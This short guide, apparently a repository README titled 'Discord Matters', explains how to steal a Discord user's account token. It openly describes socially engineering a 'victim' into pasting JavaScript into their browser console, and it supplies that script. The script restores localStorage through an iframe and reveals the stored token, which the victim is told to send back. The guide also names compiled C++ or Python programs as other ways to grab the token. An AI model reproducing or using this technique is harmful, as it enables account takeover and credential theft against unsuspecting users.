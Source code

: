 ## Discord Matters

### Grabbing the token
Our first step is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. This involves a little social engineering as it requires either you or the victim to run the code and grab the token.

- Method 1: 

Get user to copy and paste this code into browser and send you back the token. Token will be alerted in window and logged in console. ``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```
![](https://i.imgur.com/AfWZAQl.jpeg)
![](https://i.imgur.com/zl2sHCk.jpeg)
